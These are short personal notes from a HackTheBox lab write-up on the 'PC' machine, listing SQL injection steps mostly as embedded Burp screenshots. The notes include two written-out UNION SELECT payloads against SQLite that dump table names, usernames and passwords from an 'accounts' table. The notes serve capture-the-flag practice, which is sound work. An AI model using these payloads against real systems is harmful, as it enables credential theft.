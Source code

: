 
there was a bit of fiddling with the token

confirm sqli (or at least math :D)
![[Public/InfoSec/Boxes/HackTheBox/PC (Done)/burp1.png]]

Get version
![[Public/InfoSec/Boxes/HackTheBox/PC (Done)/burp2.png]]

Get tables
![[Public/InfoSec/Boxes/HackTheBox/PC (Done)/burp3.png]]

Get columns
![[Public/InfoSec/Boxes/HackTheBox/PC (Done)/burp4.png]]


Get usernames
![[Public/InfoSec/Boxes/HackTheBox/PC (Done)/burp5.png]]

Get passwords
![[Public/InfoSec/Boxes/HackTheBox/PC (Done)/burp6.png]]

Prettier output
![[Public/InfoSec/Boxes/HackTheBox/PC (Done)/burp7.png]]
```sql
2 UNION SELECT 'usernames: ' || group_concat(username,', ') || ' - ' || 'passwords: ' || group_concat(password,', ') FROM accounts -- -
```

```
{
    "id": "2 UNION SELECT sqlite_version() || ', [' || group_concat(tbl_name,', ') FROM sqlite_master WHERE type='table' || '], [usernames: ' || group_concat(username,', ') FROM accounts || ' - passwords: ' || group_concat(password,', ') FROM accounts || ']'"
}
```